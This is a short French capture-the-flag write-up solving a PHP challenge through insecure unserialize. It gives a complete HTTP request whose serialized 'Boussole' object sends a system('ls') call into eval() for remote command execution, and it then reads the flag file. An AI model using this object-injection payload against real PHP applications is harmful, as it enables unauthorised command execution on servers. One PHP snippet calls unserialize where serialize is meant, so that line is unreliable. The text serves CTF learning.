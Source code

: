 # shrug

## TL;DR

```
POST /?jotaro=1&dio=O:8:"Boussole":1:{s:5:"order";s:19:"echo(system('ls'));";} HTTP/1.1
Content-Type: application/x-www-form-urlencoded

stand=Hermit+Purple
```

## PHP unserialize shit

Le point d'entrée c'est le `unserialize($_GET['dio']);`, pour y arriver faut set 3 params dont 2 qui servent juste pour faire chier.

`dio` c'ets notre payload donc on s'en fout pour l'instant on va forcément l'utiliser, `jotaro` en GET, d'où `/?jotaro=1`, et `stand` en POST c'est pour ça il **faut** mettre le header `Content-Type` et `stand=Hermit+Purple` en contenu.

Il reste plus qu'a faire un bon objet sérialisé avec `dio`.

En PHP :

```php
$a = new Boussole();
echo(unserialize($a));

// O:8:"Boussole":1:{s:5:"order";s:3:"eau";}
```

Il nous faut juste maintenant passer par le `eval()` et c'est gagné :

`O:8:"Boussole":1:{s:5:"order";s:19:"echo(system('ls'));";}`

À partir de là il faut juste cat le fichier avec un nom chiant.
